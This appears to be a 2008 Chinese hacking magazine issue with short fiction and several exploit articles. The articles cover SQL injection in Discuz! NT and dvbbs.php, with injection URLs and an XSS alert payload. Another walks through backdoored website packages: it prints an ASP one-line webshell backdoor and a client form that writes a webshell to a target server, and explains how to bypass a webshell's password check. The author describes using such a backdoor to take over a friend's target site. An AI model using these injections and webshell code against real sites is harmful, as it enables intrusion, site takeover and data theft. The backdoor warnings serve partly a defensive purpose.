“那你不是暴露了吗？”英泽有些着急。

苏景依旧不紧不慢，“他中了我的暗示，看不出来。”

“暗示？！什么时候？”

“我说话的时候。让你掐自己的虎口是为了让你保持清醒。衬衫和帽子主要是为了暗示做的准备，那样可以有一个警察或保安的大概轮廓，不然哪有这么顺利？”

“哦。”英泽有些明白似的。

突然书房传来告警声，英泽扔下锅铲冲向书房，“糟了，电脑被追踪了！”

# 编辑点评

继上个月《夜幕 CAT 来临》第一集之后，Nobody 美眉再次出手，给大家送上了第二集校园网络女侦探办案手记。机智勇敢的 CAT 凭借自己对酒类的了解和死亡现场的调查结果，轻松战胜对手。仰天长啸，类似小说我们会继续后续，同时，我们也非常欢迎各位朋友能发来各类逻辑性强和心理描写独到的文章。

# 新闻练练看

> **小天奥运喃喃**  
> 奥运会给了我们太多的惊喜，也留给我们很多的遗憾和泪水。惊喜的不仅仅是中国获得金牌，遗憾的也不仅仅是中国丢失金牌。  
> 当我们看到勇夺首金的捷克枪手卡特日娜·埃蒙斯和丈夫呢喃“我们可以买大房子的窗户了”的时候；当我们看到“超级丹”轻松战胜李宗伟仰天长啸的时候；当我们看到中国赛艇的四位姑娘一直努力拼搏，最后夺得金牌的时候；当我们看到程菲失误哭泣的时候；当我们看到美国选手埃蒙斯最后一枪打出 4.4 环，重演四年前雅典噩梦的时候；当我们见证牙买加飞人创造新的世界纪录的时候；当我们看到菲利普斯一人夺得 8 金的时候；当我们看到“中国飞人”悲凉背影的时候……这届奥运会，值了……

## Discuz! NT 较弱智的 SQL 注入漏洞

jannock

- 从本文可以学到：
- Discuz! NT 注射漏洞分析和利用

- 漏洞版本：
- Discuz! NT 2.5 RC 版
- Discuz! NT 2.5 正式版

最近由于在研究 ASP.NET 程序的安全问题，所以 Discuz! NT 和动易的 SiteFactory 便成了我的主要研究对象。原因就不用多解释了，当然是因为动易的 SiteFactory 内容管理系统和 Discuz! NT 都拥有很多用户，嘿嘿！转入正题，为什么说 Discuz! NT 存在的这个 SQL 注入漏洞较弱智呢？我们先来看看 Discuz! NT 的简介：

### Discuz! NT 的简介

Discuz! NT 2.5 是康盛创想（Comsenz）旗下的一款功能强大的基于 ASP.NET 平台的社区软件。基于先进的 .NET Framework，默认支持 SQL Server 数据库，可扩展支持 Access、MySQL 等多种数据库。支持 IIS 5、IIS 6、IIS 7，安全高效、稳定易用，充分发挥 ASP.NET 特性，支持自由选择切换皮肤，支持多种其它论坛的数据转换。

在高性能方面，我暂且不谈，就从高安全性方面谈起。对于 ASP.NET 的网站系统，高危的漏洞主要有 SQL 注入漏洞和上传漏洞。先分析一下 SQL 注入漏洞的可能性，由于参数化查询的引入，.NET 程序从根本上解决了 SQL 注入的问题（相对而言）。我们来看看 Discuz!NT 的 SQL 语句写法（随便取一句有代表性的）：

```csharp
public void AddCommentDebates(int tid, int tableid, string commentmsg)
{
    DbParameter[] commandParameters = new DbParameter[] { DbHelper.MakeInParam("@tid", DbType.Double, 4, tid) };
    string commandText = string.Format("SELECT [MESSAGE] FROM {0}posts{1} where [tid]=@tid and [layer]=0", BaseConfigs.GetTablePrefix, tableid);
    string str3 = string.Format("UPDATE {0}posts{1} SET [MESSAGE]='{2}' where [tid]=@tid and [layer]=0", BaseConfigs.GetTablePrefix, tableid, DbHelper.ExecuteScalarToStr(CommandType.Text, commandText, commandParameters) + commentmsg);
    DbHelper.ExecuteNonQuery(CommandType.Text, str3, commandParameters);
}
```

可以从上面看出，它的 SQL 语句写法大部分采用了参数化查询，但还是有一小部分 SQL 语句用的是传统写法，如“UPDATE {0}posts{1} SET [MESSAGE]='{2}' where [tid]=@tid and [layer]=0”，这就造成了 SQL 注入的可能性。

这里只爆出它的一个很弱智的 SQL 注入漏洞，由于采用了这样的写法，程序还有很多地方存在 SQL 注入，有兴趣的朋友可以研究一下。

漏洞文件：showuser.aspx

漏洞主要函数：GetUserList(int pagesize, int pageindex, string orderby, string ordertype)

漏洞代码分析：

```csharp
public DataTable GetUserList(int pagesize, int pageindex, string orderby, string ordertype)
{
    string[] array = new string[] { "username", "credits", "posts", "admin", "lastactivity", "joindate", "oltime" };
    switch (Array.IndexOf<string>(array, orderby))
    {
        case 0:
            orderby = string.Format("ORDER BY [{0}users].[username] {1}, [{0}users].[uid] {1}", BaseConfigs.GetTablePrefix, ordertype);
            break;
        case 1:
            orderby = string.Format("ORDER BY [{0}users].[credits] {1}, [{0}users].[uid] {1}", BaseConfigs.GetTablePrefix, ordertype);
            break;
        // ...
        DbParameter[] commandParameters = new DbParameter[] { DbHelper.MakeInParam("@pagesize", DbType.Double, 4, pagesize), DbHelper.MakeInParam("@pageindex", DbType.Double, 4, pageindex), DbHelper.MakeInParam("@orderby", DbType.AnsiStringFixedLength, 0x3e8, orderby) };
        return DbHelper.ExecuteDataset(4, BaseConfigs.GetTablePrefix + "getuserlist", commandParameters).Tables[0];
}


```

从以上代码可以看出，ordertype 没有过滤就直接进入了 SQL 查询。
漏洞测试：

打开页面 http://nt.discuz.net/showuser.aspx，如图 1 所示，前面随便选择，然后按排序。

在这个地址：http://nt.discuz.net/showuser.aspx?page=1&orderby=username&ordertype=asc&Submit=%E6%8E%92%E5%BA%8F，ordertype 就是 SQL 注入的地方，从那里我们可以加入任何 SQL 语句。如：http://nt.discuz.net/showuser.aspx?page=1&orderby=username&ordertype=asc'&Submit=%E6%8E%92%E5%BA%8F，访问后出现异常信息，如图 2 所示。

至于如何利用，有何危害，这里就不再讨论了。为什么说这个漏洞比较弱智呢？原因很简单，因为旧版本不存在这个漏洞！看了一下，Discuz!NT 2.1 版在“查看用户”那里和新版的功能上没什么区别，但为什么新版却出现这个漏洞呢？是不是很弱智？
再说上传漏洞，Discuz!NT 的后台可以添加上传文件类型，也就是说可以上传任何文件，拿 webshell 是件很容易的事，所以 Discuz!NT 说不上是高安全。

修补方法：过滤 ordertype 即可。

（PS：测试时官方尚存在此漏洞，文章发表前会通知官方）

> 编辑点评：
> .NET 的架构已经对 SQL 注射等漏洞做了最大限度的保护，采用其默认的参数化查询规则可以最大限度地避免 SQL 注射漏洞。但如果其程序中有传统的 SQL 写法，还是会出现一些纰漏的。
# 七剑下山

## dvbbs 注射 0day 7 连发

落叶纷飞

- 从本文可以学到：
- 1、dvbbs 的 7 个注射漏洞
- 2、漏洞的利用

Dvbbs 从 2000 年走到现在，经历了那么多的风风雨雨，终于成为了 asp 论坛界的老大哥。其上市后不久，动网公司又继而推出了 asp.net 版和 php 版的论坛程序，不知道什么时候出 jsp 版或 cgi 版，呵呵。几个月前我从动网 php 官方的论坛上看到其推出了 dvbbs.php 2.0++ 版，时隔两个月，官方论坛上连续出了十多个补丁（当然，这不一定全部是安全补丁），而后就再也没出过了。这不，前几天在完成《黑手 2008 第 1 增刊》的任务后，马上下了套动网 php 的最新版程序进行分析。我就不卖关子了，直接给出这七个漏洞文件的代码。

## 第一个注射漏洞

第一个注射漏洞是因为 topichother.php 文件中的“activeuserid”变量过滤不严而产生的注入，其部分漏洞代码如下：

```php
function AdminActive_Main(){
    ......省略......
    $activeuserid = $_POST['activeuserid'];
    if(empty($activeuserid)){
        head(0,0,0,$arrNavMenu);
        showmsg($lang['Active_Error.str11']);
        exit;
    }
    if ($userid==0) {
        head(0,0,0,$arrNavMenu);
        showmsg($lang['Active_Error.str12']);
        exit;
    }
    switch($actionz){
    case 'is':
        foreach($activeuserid as $val){
            $db->query("update {$dv}activeuser Set isexamine=1 Where id={$val}");
            ......省略......
```

从代码中可以看出，“$activeuserid”变量使用了 post 的方式来取值，但其并没有经过任何过滤就把值传到“$val”变量中，然后就 update 进了数据库进行操作，这样就导致了注入漏洞的产生。“topichother.php”文件在前两个月就爆出过注入漏洞，在修补过后，现在居然还存在一个注入，实在令人惊讶。

## 第二个注射漏洞

第二个注射漏洞存在于 myfile.php 文件，其部分漏洞代码如下：

```php
    ......省略......
    $delIDList = implode(',',$_POST['delid']);
    if( !checkIDList($delIDList) ){
        showmsg($lang['error.file.strings35_42']);
        exit;
    }
    if( $master || $superboardmaster || $boardmaster ){
        $db->query("DELETE FROM {$dv}upfile WHERE f_id IN({$delIDList})");
    } else{
        $db->query("DELETE FROM {$dv}upfile WHERE f_flag<>2 AND f_userid={$userid} AND f_id IN({$delIDList})");
    }
    showmsg($lang['tpl.file.strings20'],1,$_SERVER['HTTP_REFERER']);
    }
    ......省略......
```

从以上代码可以看出，变量 delIDList 被 implode() 函数以逗号“,”分割开了，然后又经过了 checkIDList 函数的检测再进入数据库，现在我们来看看 checkIDList() 函数是怎么写的，相关代码如下：

```php
    function checkIDList($id_list){
        if( $id_list.'' === '' ) return false;
        return ( preg_match('/^([0-9]+,)+$/i', "{$id_list},") === 0 ? false : true );
    }
```

从代码中可以发现，这个函数对我们的注射并没有什么影响，但是要利用起来还是比较麻烦的。

## 第三个注射漏洞

第三个注射漏洞存在于 query.php 文件，我们来看看其部分漏洞代码：

```php
    ......省略......
    $PageStr = $SearchStr = "stype={$GLOBALS['stype']}&psearch={$GLOBALS['psearch']}&nsearch={$GLOBALS['nsearch']}&boardid={$_POST['boardid']}&searchdate={$GLOBALS['searchdate']}&keyword=".urlencode($GLOBALS['keyword'])."&s={$GLOBALS['s']}&isweb={$GLOBALS['isweb']}&stable={$GLOBALS['stable']}";
    // 注意 boardid 变量是直接 POST 取值的
    $loginhidden = $groupsetting[37];
    $action = $GLOBALS['action'];
    global $master,$superboardmaster;
    if( $master || $superboardmaster ){
        $Master = 1;
    } else{
        $Master = 0;
    }
    $__tableList =& $db->getResultSet("SELECT id,tablename, tabletype FROM {$dv}tablelist", array('absolutePage'=>$page,'pageSize'=>$pagesize));
    include printout('query.result');
    }
    }//end function
    // 搜索主题
    function SearchType2(){
        global $boardid,$arrNavMenu,$stats,$dv,$db,$fsetting,$groupsetting,
$lang,$userid,$membername,$master,$boardmaster,$superboardmaster,$stype,
$issavvy;
        global $selsearch,$SearchMaxPageList,$stable,$keyword,
$keywordMBLength,$Foundmykeyword,$psearch,$nsearch,$isweb;
        $RecordRowLimited = $fsetting['otherpagesize'] * $SearchMaxPageList;
        empty($issavvy) || !is_numeric($issavvy) || $issavvy>1 && $issavvy=0;
        $searchtable=$dv.($issavvy==1?"savvy_topic":"topic");
        //$now = gmdate('Y-m-d H:i:s');
        $now = TIME_NOW;
        $dateCompare1 = dateAdd('s',-$fsetting['searchlimited_time'], TIME_NOW, '');
        $dateCompare2 = dateAdd('s',-$fsetting['searchlimited_time'], TIME_NOW, '');
        $Record_Count = 0;
        $qidList = '';
        // 获取缓存
        if( $query = $db->query("SELECT id_count,qid_list,@qidList:=NULL FROM {$dv}querycache WHERE boardid={$boardid} AND stype='{$stype}' AND creation_datetime>'{$dateCompare2}' AND keyword='{$keyword}'") )
{
        // boardid 变量进入数据库
        ......省略......
```

以上这段漏洞代码编写得比较凌乱，各位读者可以参考我为大家标注的注释。从这段漏洞代码中可以看出，boardid 变量并没有做任何过滤就进入数据库进行查询了，这样就导致我们可以进行注射攻击。

## 第四、五、六、七个注射漏洞

接下来的四个注射漏洞均存在于“indivgroup_manage.php”文件中，这个文件可以说是万恶之首了，居然存在四个注射漏洞（还有一个跨站，后面我会讲到的），真是不可思议！现在就来分析一下其漏洞的成因。

我们首先来看看 user_save() 过程的注射，部分漏洞代码如下：

```php
    ......省略......
    function user_save(){
        global $db,$lang,$dv,$restriction,$page,$userid,$membername;
        $id = trim($_POST['id']);
        $groupid = intval($_POST['groupid']);
        $islock = intval($_POST['islock']);
        $intro = trim($_POST['intro']);
        $retStr = "";
        if( ($groupid == '') || ($groupid == 0) || ($id == '') || ($id == 0) )
        {
            $retStr = $lang['error_url'];
        }
        else if($membername == '')
        {
            $retStr = $lang['error_app'];
        }
        else
        {
            $intro = $db->escape_string($intro);
            $db->query("update {$dv}group_user set islock='".$islock."',intro='".$intro."' where groupid={$groupid} and id={$id}");
        }
        if($retStr == '')
        {
            echo "<script>parent.submitform_suc();</script>";
        }
        else
        {
            echo "<script>parent.information('".$retStr."');</script>";
```…………省略…………

从代码中可以看出，变量 id 和 intro 在 POST 取值后并没有做任何过滤就 update 进了数据库，这不就是典型的注入漏洞么？但是由于 intro 变量在进库时前后都加上了单引号“'”，所以如果要利用 intro 变量进行注射的话，我们只能在 magic_quotes_gpc = on 的情况下才能利用成功。不过不用怕，我们还有变量 id 呢！看完 indivgroup_manage.php 文件的第一个注射漏洞，我们接着来看看它的第二个注射漏洞，漏洞存在于 user_del() 过程，其部分漏洞代码如下：

```php
…………省略…………
function user_del(){
global $dv,$db,$lang,$info_list,$page,$total,$page_size,$offset,
$page_count,$p,$userid,$membername,$boardmaster;
$id= trim($_GET['id']);
$groupid= intval($_GET['groupid']);
$retStr= "";
if(($groupid == '') || ($groupid == 0) || ($id == '') || ($id == 0))
{
$retStr= $lang['error_url'];
showmsg($lang['error_url']);
}
else
{
$intro= $db->escape_string($intro);
$db->query("delete from {$dv}group_user where groupid=
{$groupid} and id={$id}");
$db->query("update {$dv}group_name set usernum=
(usernum-1) where id='".$groupid."'");
user_list();
}
}
…………省略…………
```

从代码中可以看出，变量 id 在经过 GET 取值后并没有做任何过滤就进入数据库进行查询了，这就导致了注射的再次产生。

看完了 user_del() 过程的两个注射，现在我们来看看 indivgroup_manage.php 文件的第四个注射漏洞（也就是最后一个），漏洞存在于 user_setadmin() 过程，部分漏洞代码如下：

```php
…………省略…………
function user_setadmin(){
global $dv,$db,$lang,$info_list,$page,$total,$page_size,$offset,
$page_count,$p,$userid,$membername,$boardmaster;
$id= trim($_GET['id']);
$groupid= intval($_GET['groupid']);
$retStr= "";
if(($groupid == '') || ($groupid == 0) || ($id == '') || ($id == 0))
{
$retStr= $lang['error_url'];
showmsg($lang['error_url']);
}
else
{
$intro= $db->escape_string($intro);
$db->query("update {$dv}group_user set islock='2' where
groupid={$groupid} and id={$id}");
user_list();
}
}
…………省略…………


```

从代码中可以看出，变量 id 在 GET 取值后并没有做任何过滤就 update 进了数据库，这又是一个典型的注射漏洞。

下面我们来说说利用过程，对于 MySQL 数据库下的 update 注射点，我们直接用 select 进行子查询就行了，其注射过程与 Access 数据库下的注射几乎完全一样，如果大家想进行高级利用，可以参考一下 superhei 大哥写的《MySQL 下 update 注射的两个模式》一文。这里我以 indivgroup_manage.php 文件中的 user_setadmin() 过程的注射漏洞来给大家演示一下！

先注册两个用户，用第一个用户创建一个群组，再登录第二个用户，用第二个用户加入第一个用户创建的群组，然后我们登录第一个用户，进入群组管理页面，选择“成员管理”功能，再把鼠标放到第二个用户的用户名上面，查看第二个用户的 ID 是多少。接着我们构造如下 URL“http://www.xxx.com/dvbbs/indivgroup_manage.php?action=usersetadmin&groupid=1&page=&mode=&id=5'”，用浏览器打开这个地址后如图 1 所示。
嘿嘿，返回查询语句出错了，这就证明了注射漏洞确实存在！确定漏洞存在后，我们先来看看新加入的用户 admin 在群组的权限是什么，如图 2 所示。
仅仅是普通成员，呵呵，我们提交以下 URL 试试“http://www.xxx.com/dvbbs/indivgroup_manage.php?action=usersetadmin&groupid=1&page=&mode=&id=5 and 1=1”，提交完后我们打开“成员管理”功能，看看 admin 的群组权限变成了什么，如图 3 所示。

嘿嘿！变成管理员了哦！我们把 admin 的群组权限重新设置为“普通会员”，再构造如下 URL“http://www.xxx.com/dvbbs/indivgroup_manage.php?action=usersetadmin&groupid=1&page=&mode=&id=5 and 1=2”，打开该地址后，我们可以看到 admin 的权限并没有变成管理员，而是如图 2 所示的普通成员。

嘿嘿，注射的方法就是这样的了，有点麻烦，但毕竟是个 0day 嘛！本来想写个利用程序的，但是不知道怎么写才行，编程的时候老有问题，唉……功底不够啊！人又笨……

接下来我附加一个 indivgroup_manage.php 文件的跨站漏洞，呵呵，看代码：

```php
…………省略…………
switch ($_GET['action']) {
…………省略…………
case "boardmanage":
head(1,0,0,$title_num,$mygrouplink);
board_info();
footer();
break;
…………省略…………
function board_new(){//boardname,boardinfo,indeximg,boardrules,boardstats
global $db,$lang,$dv,$restriction,$page,$userid,$membername;
$boardname= trim($_POST['boardname']);
$boardinfo= trim($_POST['boardinfo']);
$indeximg= trim($_POST['indeximg']);
$boardrules= trim($_POST['boardrules']);
$boardstats= intval($_POST['boardstats']);
$groupid= intval($_POST['groupid']);
$retStr= "";
if(($groupid == '') || ($groupid == 0))
{
$retStr= $lang['error_url'];
}
else if($boardname == '')
{
$retStr= $lang['error_name_board'];
}
else if($membername == '')
{
$retStr= $lang['error_app'];
}
else
{
$boardname= $db->escape_string($boardname);
$boardinfo= $db->escape_string($boardinfo);
$indeximg= $db->escape_string($indeximg);
$boardrules= $db->escape_string($boardrules);
$db->query("insert into {$dv}group_board(boardname,
boardinfo,indeximg,rules,boardstats,rootid,founddate) values('".$boardname."',
'".$boardinfo."','".$indeximg."','".$boardrules."','".$boardstats."','".
$groupid."',now())");

…………省略…………


```

从以上代码可以看出，**boardname**、**indeximg** 和 **boardinfo** 等变量在经过 escape_string 函数过滤后就插入到数据库中，虽然经过了 escape_string 函数的过滤，但 escape_string 这个函数仅仅是作转义的作用，对我们的跨站攻击影响不大。在数据插入数据库后，indivgroup_index.php 文件又直接把它调了出来，这就造成了一个跨站漏洞！下面我就用 boardinfo 这个变量来给大家演示一下跨站的效果。先新建一个群组，再打开群组管理页，然后新建一个栏目，栏目的内容就是我们的跨站语句“**<script>alert(/诚爱娜/)</script>**”，如图 4 所示。

点击“保存设置”按钮后，我们回到群组的首页 indivgroup_index.php 就可以看到跨站语句被成功执行了！同一时间，indivgroup_index.php 文件的“栏目管理”功能也被插入了恶意代码，如图 5 所示。

四个注射加一个跨站，这个文件也算是万恶之首了，呵呵……不过动网论坛的代码还是较其它论坛严谨很多。另外，从动网 PHP 版的代码中就可以看出，这个论坛明显是 ASP 程序员转 PHP 语言的作品，呵呵，有的地方写得还有些稚嫩，不过总的来说，这还是一款不错的论坛程序。
图 4 输入跨站代码
图 5 跨站成功

好了，就到这里吧！

本文是采用半 POC 的结构来写的，可能新手朋友阅读起来有点困难。最后我要感谢 Flyh4t 给我的技术指点，同时再发点牢骚，记得“黑手”的第六期杂志中有一篇文章的修饰图是 Xjapan 的纪念拨片，不知道啥时候“黑手”能随书赠送一片呢？5555～～

## 编辑点评：

如果还是写 ASP 版 dvbbs 的人写的这套 PHP 版本，那么可以肯定它存在很多的漏洞。加上其前期多注重的是功能性，而对安全性比较忽略，所以，这个版本的 dvbbs 还有其它的漏洞。
图 孤水绕城

从本文可以学到：

- 1、提高安全意识，提防背后黑手
- 2、代码后门检查

# 阴沟翻船

前几天把手机丢了，就在眼皮子底下给没了，弄得俺好不心疼，700 多块钱啊，快两个月的生活费了。不得不感叹现实的社会是多么的贪婪和残酷，可是再看看我们为之迷醉的网络，更是陷阱密布，一不小心就会阴沟里翻船。不信？那好，您就往下看。

# 金屋藏娇

几个月前和同学合伙建网站，域名、空间都买好了，就差往空间里面放网站源码了，因为我们都不会写代码，所以就想找一套整站程序。又因为我们都是学黑的，所以找一套安全可靠的程序是必须的，那样网站才能开得长久，也不会给人黑了丢了脸面。
图 1 页面首页

找来找去，最后下载了套叫做“真的见证新云 2.1 黑色超酷风格”的黑客整站，如图 1 所示。

大家都知道，新云的网站经历过这么多风风雨雨，已经算是比较安全的一套整站系统了，也是俺菜鸟们搭建黑客网站的首选（反正我没找别的程序）。一来美观，二来安全，于是就把这套程序传到空间上去了，网站就这样搭建起来了，还到处臭美了一番。

一个月后的某天，突然想起来得给网站做个备份，免得以后网站瘫痪了没法补救。于是就用 ftp 工具把空间里的东西往电脑里拷，看着进度条缓慢地前进，可是就在这时，一个文件夹——2005-12.asp 的出现可把俺吓了一跳。同学们注意了，*.asp 的网站程序本来没什么起眼的，关键的是，那可是个文件夹啊！比较经典的 Windows 2003 服务器解析漏洞大家都应该知道吧？记得以前拿网站的时候，也是利用过这么一个 *.asp 文件夹。

这下可冒汗了，要出事情！赶紧把网站目录结构查看一番。结果在 Article\UploadPic 目录里有 10 个类似 *.asp 的文件夹，另外在“Article\UploadPic\2007.asp”（注意这里 2007.asp 是个文件夹）这个文件夹下有一张 JPG 格式的图片没有缩略图显示，直觉告诉我这个东西一定有鬼，用记事本打开，如图 2 所示。
图 2 图片中含有一句话后门

果然，还真给放了后门。用一句话木马客户端填写好了信息，加上我的小马，如图 3 所示，提交后返回结果如图 4 所示。

一套新云版的整站就这样沦陷了，虽然这个漏洞的利用必须得在 Windows 2003 环境下才能成功，但是现在网上的服务器大多数都是 Windows 2003 的（尤其是虚拟主机）。这个漏洞看起来没什么技术含量，可是真的利用起来，那威力还是不能小看。

# 暗中乾坤

放假前和好友一起搞一个网站，好友说那网站的站长特别狂，让他教训一下。因为本人技术还特别垃圾，不敢放话能搞下来，就说先试试看。这个网站还真不小，是个大站，林子大了，鸟也少不了，漏洞也是必然存在的，不信拿不下你。

于是拿着 ad 在百度里狂注，结果半个注入点也没有！用明小子的 domain 扫了半天也没结果，这下傻眼了。这时好友说他扫到了个后台，并且用用户名：admin，密码：123456 登录成功了。不过后台功能太简单了，拿不了 webshell，让我看看能不能搞。

不看不知道，一看心里就凉了半截，这可没得搞了，上传、备份数据库的功能都没有，如图 5 所示。

搞了半天也没拿下来，最后看了下前台，是套类似 hao123 的网站导航类程序，看了下版权，叫做“100tom 实用网址导航”，马上下套源码进行“黑白”（黑盒白盒）测试。

先看下数据库是不是 asp 或者 asa 后缀的，如果是的话，插马还有可能。不过数据库用的名字是“data.asa111”，在浏览器里无法访问，插马就更别想了，这条路断了。

这时看到有“网站信息管理”这个功能，如果配置信息被写入到了 asp 文件里，我们就可以考虑往里面写入一句话木马，那样也是个拿站的好办法，毕竟源码都在我们手里了。那就先抓下包，如图 6 所示。

抓包后第一行内容是“POST /admin/Admin_SiteConfig.asp HTTP/1.1”，说明 Admin_SiteConfig.asp 文件对提交的内容进行了接收，那我们来看看配置信息写到哪了？关键源码如下：

```asp
pw1=request("pw1")
pw2=request("pw2")
pw3=request("pw3")
pw4=request("pw4")
pw5=request("pw5")
action=request("action")
if action="doit" then
if pw1="" then
Response.Write "请输入新的网站名称"


```
图 3 一句话客户端
图 4 小马上传成功
图 5 网站后台
图 6 抓包

```asp
Response.End
end if
if pw2="" then
Response.Write "请输入新的网站地址"
Response.End
end if
if pw3="" then
Response.Write "请输入新的站长邮箱"
Response.End
end if
set r=server.createobject("adodb.recordset")
r.open "select * from title",conn,1,3
if not r.eof then
r("site")=pw1
r("siteurl")=pw2
r("email")=pw3
r("Copyright")=pw4
r("login")=pw5
r.update
Response.Write "网站信息配置已成功更改！"
Response.End
```

配置信息被写进数据库了，因为数据库访问不了，那么也就不能插马了。由于自身能力有限，这套整站拿 webshell 的方法我只能想到这些，可是还都不能利用。跨站挂马之类被动拿站的方法我不想用，那个很耗时间。后来当我用 Dreamweaver 的搜索功能查找这套系统的注入漏洞时，无意间发现了一句代码，如图 7 所示，搜索结果第一行的 template.asp 文件里的一句代码。

```asp
if request("asp_de")="asp_decom" then
execute request("asp_de")


```
图 7 搜索到的代码

苍天啊！大地啊！别告诉我你不知道啊！这不就是传说中的一句话木马嘛！不过先别忙着抄家伙，来看看这个 if 条件句是干嘛的？分别以“asp_de”和“asp_decom”做关键字用 DW 搜索了下，发现只有 template.asp 文件里有这两个关键字，看来真的是个后门。这下就简单了，拿出一句话客户端稍微改造一下，我把修改好的代码也贴出来，照顾菜鸟。

```html
<form action=http://192.168.18.128/template.asp?asp_de=asp_decom
method=post>
<textarea name=asp_de cols=120 rows=10 width=45>
set IP=server.createObject("Adodb.Stream")
IP.Open
IP.Type=2
IP.CharSet="gb2312"
IP.writetext request("joeving")
IP.SaveToFile server.mappath("gsrc.asp"),2
IP.Close
set IP=nothing
response.redirect "gsrc.asp"
</textarea>
<textarea name=joeving cols=120 rows=10 width=45>添入生成木马的
内容</textarea><BR><center><br>
<input type=submit value=提交>


```

为什么这么改，具体我就不说了，不明白的可以学习下“黑手”精品图书《精通脚本黑客》！赶紧提交下，在本地成功地返回了结果，如图 8 所示。

嘿嘿，这就怪不了俺了，接下来就该拿站了。把上面一句话客户端 form 标签里 action 后面的网址改成我们要入侵的网站，提交后成功返回了结果，如图 9 所示。

到这里这个网站就彻底沦陷了，把检测结果告诉好友，webshell 也给他了，任务 over。
图 8 一句话木马提交成功
图 9 一句话提交大马成功

# 大马中藏

最害怕的就是放假了，因为放假就不能上网了（家里穷，连不起网线！），只能用电脑看点资料。这天突然想分析下源码，看看能不能找出点漏洞，顺便提高下水平。最后把目光放在了一套叫做“海口双岛学园”的整站，就这样开始了我的漏洞分析之旅。

网站做得还挺美观，如图10所示，是一套专门为学校建站提供的整站程序。
耐着性子看了看代码，漏洞倒是有几个，不过都挺鸡肋。也许是人品不好，研究了半天，感觉自己能够拿 webshell 的地方可都拿不下来。最后没办法，换个看 system（是个后台存放登录文件的文件夹，类似于 admin 目录）目录里的文件，看看是不是每个文件都有 session 验证。

没翻几个文件就找到一个名叫“AdminAdd1.asp”的文件，最开头没有 session 验证，呵呵，有搞头了啊！可是没看几行代码就看出毛病来了，代码如图11所示。

天啊！代码写得怎么和大马这么相像？顺手在浏览器里访问下，出现了登录界面，如图12所示。
这下大家明白了吧，是个叫“程序网络工作组 ASP 站点管理员 V1.02”的网站管理程序，其实也就是我们平时接触的大马。
这下好了，我们连木马都不用上传了，整站已经给我们预备好了。找了下登录的密码，发现源码中有一句“Const userPassword = "144002DE06D510"”，看来它就是密码了。可是把“144002DE06D510”（不包括双引号）填进去，却不能登录，难道这个密码是加了密的？跟踪了下 userPassword 这个变量，发现 PageLogin() 函数控制登录的过程，分析了下，找到了程序登录的验证过程：

- 1. 在登录框中输入密码
- 2. 程序通过 GetPost() 函数接收我们输入的密码
- 3. 然后再用 Encode() 函数对我们输入的密码进行加密
- 4. 加密之后赋值给 passWord 这个变量
- 5. 最后“userPassword”再和“passWord”比较，相等就能成功登录

这里给出关键的代码：

```asp
Sub PageLogin()
    Dim passWord
    passWord = Encode(GetPost("password"))
    If theAct = "Login" Then
        If userPassword = passWord Then
            Session(m & "userPassword") = userPassword
            ShowTitle("登录成功!")
            PageReadMe()
......省略 N 行代码
Function Encode(strPass)
    Dim i, theStr, strTmp
    For i = 1 To Len(strPass)
        strTmp = Asc(Mid(strPass, i, 1))
        theStr = theStr & Abs(strTmp)
    Next
    strPass = theStr
    theStr = ""
    Do While Len(strPass) > 16
        strPass = JoinCutStr(strPass)
    Loop
    For i = 1 To Len(strPass)
        strTmp = CInt(Mid(strPass, i, 1))
        strTmp = IIf(strTmp > 6, Chr(strTmp + 60), strTmp)
        theStr = theStr & strTmp
    Next
    Encode = theStr
End Function

Function JoinCutStr(str)
    Dim i, theStr
    For i = 1 To Len(str)
        If Len(str) - i = 0 Then Exit For
        theStr = theStr & Chr(CInt((Asc(Mid(str, i, 1)) + Asc(Mid(str, i + 1, 1))) / 2))
        i = i + 1
    Next
    JoinCutStr = theStr
End Function


```

因为自己太菜，所以那个“144002DE06D510”密码到底是什么字符串，结果却破解不出来，所以这个 webshell 我还是用不了。这里写出来就是希望高手们能帮小弟一把，搞出个解密函数来，让俺也看看那个密码到底是什么，我这里先谢过了。
把上面代码中第5行的那句“If userPassword = passWord Then”中的“=”改成“<>”（不等于），我们不用输入密码
就能进去了，如图13、图14所示。功能好强大的一个大马啊，好像还是免杀的（我的瑞星不杀）。

漏洞没找到，却无意中捡了一匹好马，这个“海口双岛学园”还真是大方啊，网站做得漂亮还送匹宝马！！！这里我也把它送给大家了。

# 公道在心

这里我不只是单纯地给大家讲解这几套整站系统的漏洞以及利用的方法，而是想通过这些例子抛砖引玉，给大家说明下开源程序的不安全因素。通过上面的分析，三套整站中前两套都被放了一句话后门，最后一套干脆连后门都不用，直接放大马了。那么到底谁对网站做了手脚？反正不是你也不是我，呵呵。从网站做完发布，只要能够接触源码的人都有机会。不管后门陷阱是谁放上去的，有一点大家必须要知道，就是我文章题目的那句话：“警钟长鸣——警惕隐藏在网站背后的陷阱”。

网络是虚拟的，但也绝不是安全的。我们要时时刻刻警惕那些后门陷阱，不能掉以轻心，同时也告诫那些对网站做手脚而别有用心的人，公道自在人心，害人即害己，那样会遭人唾骂，到头来换得一生骂名就悔之晚矣。

（作者文中说到的三个 webshell 都已经收录在光盘中）

# 编辑点评

虽然早就知道很多系统里面藏有猫腻，但是看到作者分析的这三个系统中的后门后，才觉得真的很危险。需要提醒大家的是，一般比较有名气的系统都是比较安全的，但是一些所谓的“XX美化版”、“XXX增强版”等都有藏猫腻的可能。

# PHP168 补漏的洞

樱花浪子

- 从本文你可以学到：
- 1、漏洞的逆向分析
- 2、对漏洞的再挖掘

关于 PHP168 是做什么的？用的人多不多？在“黑手”第八期已经介绍过了，本文开篇先感谢一下 PW 里的牛人为 PHP168 的无私付出（某人说道：人家本来就是一家子），6天打了三次补丁，很敬业啊！下面言归正传，一起来看下6天出的三个补丁。

公元2008年8月1日，PHP168 官方出了补丁，偶正好路过，就把官方的补丁文件下载回来了。因为偶听丰初说比较原文件和补丁文件就能找到漏洞所在，偶就试了一试。官方补丁为 job.php，先来看一下 0801 的 job.php 补丁文件，代码为91行到120行：

```php
// 下载文章附件
elseif($job=="download")
{
    $rsdb=$db->get_one("SELECT * FROM {$pre}article WHERE aid='$id'");
    $fidDB=$db->get_one("SELECT * FROM {$pre}sort WHERE fid='$rsdb[fid]'");
    if($fidDB[admin]&&$lfjid){
        $detail=explode(",",$fidDB[admin]);
        if(in_array($lfjid,$detail)){
            $web_admin=1;
        }
    }
    if($fidDB[allowdownload]&&!$web_admin&&$lfjuid!=$rsdb[uid]){
        $detail=explode(",",$fidDB[allowdownload]);
        if(!in_array($groupdb['gid'],$detail)){
            showerr("你所在的用户组无权限下载");
        }
    }
